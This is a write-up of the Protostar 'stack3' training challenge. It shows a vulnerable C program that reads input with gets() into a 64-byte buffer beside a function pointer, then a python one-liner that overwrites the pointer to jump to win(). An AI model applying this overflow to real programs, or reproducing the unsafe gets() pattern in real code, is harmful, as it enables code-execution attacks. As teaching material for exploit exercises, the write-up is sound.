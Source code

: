 ```yaml
---
title: Protostar Writeup - stack3
updated: 2018-07-28 23:45
---
```


## Protostar - stack3

Moving on to the next challenge. Things get pretty interesting over here. Our task is to somehow call the `win()` method. Again as you can see this is actually a buffer overflow attack.
Here's the code, let's take a closer look at it.

```c
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>
#include <string.h>

void win()
{
    printf("code flow successfully changed\n");
}

int main(int argc, char **argv)
{
    volatile int (*fp)();
    char buffer[64];

    fp = 0;

    gets(buffer);

    if(fp) {
        printf("calling function pointer, jumping to 0x%08x\n", fp);
        fp();
    }
}
```

We're dealing with function pointers in this case, which we get to know from `int (*fp)()`.
A pointer is a special kind of variable which 'points' to a particular memory location. If we have to access the contents at that location we 'dereference' it using the `*` operator.
So you can think of it in this way, if I declare a pointer `int *a`. This tells me that `a` will give me the memory location and `*a` will actually give me the contents of that memory location.
A function pointer is the same, it isn't a true function in it's true sense. The function pointer just points to executable code, where as a normal pointer points to certain data.
Now that we know that a pointer 'points' to a certain location, we can exploit this.

### The solution

This solution to this challenge is pretty simple once you understand how function pointers work. We somehow have to change the value of `fp` and make it point to the location of the `win()` method.
Now the question arises... how the heck do I get the address of the `win()` method? If we take a look at the hints on the site we see two ways. One is gdb and the other objdump. I'll demonstrate both the ways.

First let's take a look at the address of `win()` using objdump.

```shell
$ objdump -d stack3 | grep win
08048424 <win>:
```

We get the address of the `win()` method which is `0x08048424`. Now let's do the same, but this time using gdb.

```shell
$ gdb stack3
(gdb) p win
$1 = {void (void)} 0x8048424 <win>
```
This is how you get the address of the function using gdb.

Now that we have our address, let's exploit the binary. Since we know the `buffer` variable is of 64 bytes, we add that much padding.
Also, keep in mind that we're working on a little endian architecture so we write the address accordingly.

```shell
$ python -c "print 'A'*64 + '\x24\x84\x04\x08'" | ./stack3
calling function pointer, jumping to 0x08048424
code flow successfully changed
```

Pwned! Nice and simple, considering that we learn't a thing or two about function pointers, this challenge wasn't that boring.

### Sites

[Protostar](https://exploit-exercises.com/protostar/)
[Phrack](http://phrack.org/issues/49/14.html)
[Function Pointers](https://en.wikipedia.org/wiki/Function_pointer)
